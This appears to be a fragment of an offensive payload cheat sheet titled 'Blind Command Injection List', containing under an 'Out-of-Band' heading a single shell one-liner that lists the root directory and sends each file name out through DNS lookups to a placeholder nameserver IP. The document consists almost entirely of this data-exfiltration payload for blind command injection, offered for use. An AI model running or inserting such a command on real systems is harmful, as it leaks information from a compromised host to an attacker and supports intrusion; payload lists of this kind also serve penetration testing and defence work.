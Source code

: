 # Blind Command Injection List

## Out-of-Band

```
for file in $(ls /); do host "$file.<dns_nameserver_IP>"; done
```
